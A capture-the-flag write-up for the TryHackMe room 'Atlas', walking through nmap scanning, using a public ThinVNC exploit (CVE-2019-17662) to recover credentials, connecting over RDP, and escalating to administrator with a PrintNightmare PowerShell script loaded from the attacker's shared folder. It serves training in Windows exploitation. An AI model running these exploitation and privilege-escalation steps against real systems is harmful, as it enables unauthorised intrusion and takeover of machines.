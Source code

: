 # Atlas
This is my writeup for the TryHackMe room [Atlas](https://tryhackme.com/room/atlas) created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).

![image](https://user-images.githubusercontent.com/86648102/135411347-8f13e0b8-c5c2-4758-ba25-e839550dc248.png)

---

## Task 1 Introduction Room Overview and Deploy! 

This is an introductory level room which aims to teach you the very basics of Windows system exploitation, from initial access, through to privilege escalation.

**Answer the questions below**

### Press the Green "Start Machine" button to deploy the machine!

---

## Task 2 Enumeration: Port Scanning 

**Enumeration** is probably the most important thing when comes to solving any challenge.


**Answer the questions below**

### Scan your target IP (10.10.200.252) with Nmap!

Let's add a bit of flavour here, to have a more complex scan with output to a text file for later review:

`sudo nmap -sC -sV -v -oN Atlasnmapscan.txt $ip -p- -Pn`

### With the Nmap default port range, you should find that two ports are open. What port numbers are these?

Reffer to the above **scan** ; the 2 ports are appearing quickly with the verbose output.

### What service does Nmap think is running on the higher of the two ports?

The answer is found in the bottom of the nmap scan.

![image](https://user-images.githubusercontent.com/86648102/135414498-baf3e3fd-48f5-4cfd-b10f-db34df0682c7.png)


### We would usually go on to do a lot more in-depth scanning, but we will leave it at that for this introductory room. We have what we need for the time being.

> Here, it's a reference for the nmap scan switches mentioned above. 

---

## Task 3 Enumeration: Service Enumeration 

Doing the scan as suggested above, will contain this part.
- First service : 3389 RDP: Remote Desktop Protocol, used to get remote graphic desktop session ;
- Second service: 8080 HTTP-PROXY; 
 By accessing it into a web browser, we get prompted to authenticate 
  
  ![image](https://user-images.githubusercontent.com/86648102/135415966-53b1a5c3-f48d-4460-9347-050d2b1c753a.png)

We're going to curl the target to get more info:

`curl $ip:8080 -v`
![image](https://user-images.githubusercontent.com/86648102/135416755-45b5f730-f9c5-4d52-bcb0-f72fd5848e07.png)


**Answer the questions below**


### Use searchsploit to find the vulnerability in ThinVNC

`searchsploit ThinVNC`

![image](https://user-images.githubusercontent.com/86648102/135416567-0b2b2e07-a0ba-4c51-a8c0-a9a48f692f5c.png)

---

## Task 4 Attack Foothold 

**Answer the questions below**

# Clone the Git repository at https://github.com/MuirlandOracle/CVE-2019-17662  to your attacking machine.

`git clone https://github.com/MuirlandOracle/CVE-2019-17662`

# Switch into the newly created exploit directory and set the file to be executable 

- First check with `ll`; if the file is executable already, go to next task.

![image](https://user-images.githubusercontent.com/86648102/135418603-22ec11b3-6820-4043-9ffc-767d3ab495e5.png)


# Read through the exploit help menu

`./CVE-2019-17662.py --help`

- This script requires two arguments

![image](https://user-images.githubusercontent.com/86648102/135418690-71194ca4-80ad-465e-9837-7d867f2f9c3f.png)


![image](https://user-images.githubusercontent.com/86648102/135418912-c2ae1f7f-6f8e-4c1d-9452-b724fd50e37d.png)


# Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

We could use the inbrowser version or we could use Remmina for this task.

- `sudo apt install remmina`
- After you have it installed, open `remmina`
- Click on "Add new connection" where you put the newfound details

- RIght CLick > Connect 

![image](https://user-images.githubusercontent.com/86648102/135423850-0946b3ae-e6bb-42ed-add1-b3c41bd35e02.png)


---

## Task 5 Access VNC 🠖 RDP 

---

If the above step worked for you, then you should be already conencted to the machine via Remmina.

However, the mentioned method here is working too.

`xfreerdp /v:10.10.200.252 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:/tmp,share`

> Replace USERNAME and PASSWORD arguments with your findings

---

Task 6 Attack Privilege Escalation 

--- 

**Answer the questions below**

We will use PrintNightmare to elevate our privileges on this target.


### There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.


### Navigate to the /tmp directory of your attacking VM, then clone the repository.


`cd /tmp`
`git clone https://github.com/calebstewart/CVE-2021-1675`

- Now, on the RDP session, open a powershell and run the following command:

`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1` 

> This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!

![image](https://user-images.githubusercontent.com/86648102/135426765-0c782b7e-5390-4151-88a4-08c738764e35.png)

- Next, in powershell, run `Invoke-Nightmare`

![image](https://user-images.githubusercontent.com/86648102/135427022-bdba10ff-1795-4dd3-95e7-e5069d3736bb.png)

We can now make use of our brand new admin account!
Run:

`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

Input as  Password :`P@ssw0rd` (generated before with the script)

Run `whoami /groups`

![image](https://user-images.githubusercontent.com/86648102/135427571-8b68d13f-14b7-4367-9aa3-007fc66231b2.png)

Good. We now have admin on this machine.





